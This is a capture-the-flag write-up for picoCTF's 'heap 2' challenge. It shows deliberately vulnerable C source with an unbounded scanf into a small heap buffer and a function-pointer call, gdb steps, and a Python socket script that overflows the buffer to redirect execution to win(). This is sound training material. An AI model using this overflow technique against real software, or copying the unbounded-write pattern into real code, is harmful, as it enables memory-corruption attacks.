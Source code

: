 # heap 2

```markdown
Tags: `Binary Exploitation` `heap` `browser_webshell_solvable`
```

## **Description**

Can you handle function pointers?

<figure><img src="../.gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

```bash
gdb ./chall
break main
p &win
```

<figure><img src="../.gitbook/assets/Pasted image 1 (6).png" alt=""><figcaption></figcaption></figure>

## Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

int num_allocs;
char *x;
char *input_data;

void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}

void check_win() { ((void (*)())*(int*)x)(); }

void print_menu() {
    printf("\n1. Print Heap\n2. Write to buffer\n3. Print x\n4. Print Flag\n5. "
           "Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {

    printf("\nI have a function, I sometimes like to call it, maybe you should change it\n");
    fflush(stdout);

    input_data = malloc(5);
    strncpy(input_data, "pico", 5);
    x = malloc(5);
    strncpy(x, "bico", 5);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x, x);
    fflush(stdout);
}

int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

* This C program presents a menu-driven interface where the user can perform various actions.
* It initializes two heap-allocated variables: `input_data` and `x`.
* The `init` function initializes the program by allocating memory for `input_data` and `x`, and setting initial values for them.
* The `print_menu` function prints a menu for the user to choose from various options.
* The `write_buffer` function allows the user to write data to the `input_data` buffer.
* The `print_heap` function prints the addresses and values stored in `input_data` and `x`.
* The `win` function is intended to print the flag by opening and reading from the file "flag.txt". It is indirectly called by the `check_win` function.
* The `check_win` function attempts to call the function pointer stored in `x`. If `x` points to the `win` function, the flag is printed. Otherwise, an attempt is made to execute whatever function `x` points to.
* The `main` function runs the main loop of the program, continuously displaying the menu and executing the corresponding actions based on the user's choice.
* It handles user input validation and ensures the program continues running until the user chooses to exit.

## Solution Strategy

```python
import socket
import time

def send_command(sock, command, wait_time=1):
    """Send a command to the server and print the response."""
    sock.sendall(command)
    time.sleep(wait_time) 
    response = sock.recv(4096)
    print_safe(response)

def print_safe(binary_data):
    """Print binary data safely by trying to decode or printing a safe representation."""
    try:
        print(binary_data.decode('utf-8'), end='')
    except UnicodeDecodeError:
        print(repr(binary_data), end='')

def main():
    HOST = 'mimas.picoctf.net'
    PORT = 65214 

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((HOST, PORT))

        response = s.recv(1024)
        print_safe(response)

        print("Sending data to buffer...")
        payload = b"A" * 32 + b"\xa0\x11\x40\x00\n"
        send_command(s, b'2\n', 2)  
        send_command(s, payload, 2) 

        print("Confirming x is overwritten...")
        send_command(s, b'3\n', 2) 

        print("Attempting to print the flag...")
        send_command(s, b'4\n', 2)

if __name__ == "__main__":
    main()
```

* This Python script establishes a TCP connection to a server (`mimas.picoctf.net`) on port `65214`.
* It sends commands to the server to interact with a menu-driven interface.
* The `send_command` function sends a command to the server and waits for a specified amount of time to receive the response.
* The `print_safe` function safely prints binary data by attempting to decode it as UTF-8 and falling back to a safe representation using `repr()` if decoding fails.
* In the `main` function:
  * It first establishes a connection to the server.
  * It receives and prints the initial menu from the server.
  * It sends a payload to the server to overwrite a buffer, which presumably leads to a vulnerability.
  * It confirms if the payload successfully overwrites the target buffer by choosing the option to print the overwritten data.
  * It attempts to print the flag by selecting the appropriate menu option.
* The script allows for adjustable wait times to ensure server responses are properly captured.
* It's designed to interact with a specific server and assumes a certain protocol and behavior. Adjustments may be necessary for different servers or interfaces.

## Flag

<figure><img src="../.gitbook/assets/Pasted image (30).png" alt=""><figcaption></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
